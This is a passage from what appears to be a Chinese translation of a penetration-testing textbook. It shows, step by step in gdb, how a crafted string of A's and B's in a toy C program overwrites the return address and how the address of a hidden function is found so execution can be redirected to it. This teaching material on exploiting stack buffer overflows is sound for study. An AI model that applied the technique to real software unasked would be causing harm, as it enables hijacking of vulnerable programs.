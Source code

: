 在我们使用这个新参数运行程序之前，`delete`掉前两个断点，因为直到执行`strcpy`之后，我们的第三个断点才会让内存状态发生有趣的变化。

使用 Perl 启动程序，攻击字符串为九个*A*后跟四个*B*。由于程序在上次运行时崩溃，系统会询问是否从头开始。输入**`y`**表示是。当我们检查唯一剩下的断点时，内存状态如预期所示，如示例 16-13 所示。

示例 16-13. 用 Bs 覆盖返回地址

```
Breakpoint 3, function (str=0xbffff700 "\017") at overflowtest.c:11
11    }
(gdb) **x/20xw $esp**
0xbffff510:    0xbffff523    0xbffff744    0xbffff528    0x080482e8
0xbffff520:    0x41fcfff4    0x41414141    0x41414141    0x42424242❶
0xbffff530:    0xbffff700    0xbffff550    0xbffff5a8    0xb7e8c685
0xbffff540:    0x08048470    0x08048340    0xbffff5a8    0xb7e8c685
0xbffff550:    0x00000002    0xbffff5d4    0xbffff5e0    0xb7fe2b38
(gdb) **continue**
Continuing.
Program received signal SIGSEGV, Segmentation fault.
0x42424242 in ?? ()
(gdb)
```

在我们之前看到的返回地址（`0x08048443`）的位置，现在变成了`0x42424242`。如果我们让程序继续运行，就会看到它在尝试执行四个*B*的内存地址时崩溃❶。这再次越界了，但至少现在我们知道该把我们想执行的代码的地址放在哪里。

我们现在已经确定了攻击字符串中哪些四个字节覆盖了返回地址。记住，返回地址是在`function1`返回时加载到 EIP 寄存器中的。现在，我们只需找到一个比`41414141`或`42424242`更有趣的地方来发送执行。

### 劫持执行

我们已经确定了要在攻击字符串中覆盖返回地址的位置，但我们仍然需要放置一些内容。（这个例子相较于我们接下来会讨论的其他漏洞开发例子可能显得有些牵强，但它很好地说明了底层概念。）我们成功地利用程序中使用的`strcpy`函数来操控`buffer`变量，从而覆盖了其他内存地址，包括返回地址。

回顾我们源代码中的*overflowtest.c*，记得程序除了`main`和`function1`外，还包含了另一个函数。程序中的第一个函数，叫做`overflowed`，会向控制台打印“Execution Hijacked”，然后返回。当程序正常运行时，这个额外的函数从未被调用，但正如它的输出所暗示的那样，我们可以利用它来劫持执行。

回到调试器，如果我们能找到`overflowed`在内存中的起始位置，就应该能够将四个*B*替换为该内存地址，覆盖返回地址，并迫使程序执行开发者未曾预料到的指令。我们有源代码并且知道我们要找的函数名，所以这个任务很简单。我们只需反汇编`overflowed`并找出它在内存中的加载位置，如示例 16-14 所示。

示例 16-14. 反汇编 `overflowed`

```
  (gdb) **disass overflowed**
  Dump of assembler code for function overflowed:
❶ 0x080483f4 <overflowed+0>:     push   %ebp
  0x080483f5 <overflowed+1>:     mov    %esp,%ebp
  0x080483f7 <overflowed+3>:     sub    $0x8,%esp
  0x080483fa <overflowed+6>:     movl   $0x8048520,(%esp)
  0x08048401 <overflowed+13>:    call   0x804832c <puts@plt>
  0x08048406 <overflowed+18>:    leave
  0x08048407 <overflowed+19>:    ret
  End of assembler dump.
  (gdb)
```

如你所见，内存地址 `0x80483f4` ❶ 保存着 `overflowed` 中的第一条指令。如果我们将程序重定向到这里，它将执行该函数中的所有指令。

